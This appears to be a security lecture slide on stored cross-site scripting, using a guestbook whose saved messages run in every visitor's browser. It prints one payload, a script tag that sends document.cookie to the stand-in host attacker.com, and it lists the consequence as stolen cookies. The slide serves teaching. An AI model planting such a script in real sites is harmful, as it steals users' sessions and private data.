

# Stored XSS attack on example 2
Attacker leaves a message like this:
<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>

   The message is stored in the guestbook database and displayed  (executed!) for every new client of the guestbook.

Consequence:
Many victims’ cookies stolen by attacker.com;
Possible sensitive private information;